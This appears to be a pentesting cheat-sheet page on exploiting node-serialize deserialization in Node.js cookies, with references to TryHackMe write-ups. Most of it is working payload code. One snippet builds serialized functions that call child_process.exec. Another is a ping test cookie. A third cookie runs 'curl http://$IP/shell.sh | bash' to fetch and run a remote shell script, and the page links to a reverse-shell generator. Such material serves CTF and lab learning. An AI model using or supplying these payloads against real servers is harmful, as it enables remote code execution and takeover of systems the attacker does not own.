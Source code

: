 #  Javascript Cookie Abuse



## Deserialization of Node JS Cookies 

[opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) - Payload building
```js
var y = {
    rce: function() {
        require('child_process').exec('ls /', function(error, stdout, stderr) {
            console.log(stdout)
        });
    }(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

```js
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ping -c 3 /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```


Ping to test 
```json
{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 3 $IP', function(error, stdout, stderr) { console.log(stdout) });}()","isGuest":true,"encoding": "utf-8"}`
```

Host shell.sh; encode base64 this cookie:
```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl http://$IP/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```
Consideration on using `.exec` to directly get a reverse shell like - [nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)


## References

[falseintel](https://falseintel.github.io/thm-vulnnet-node-writeup.html)
[kartikeyj96](https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/VulnNet-Node%20Writeup)
[Node.Js-Security-Course](https://github.com/ajinabraham/Node.Js-Security-Course)
[opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)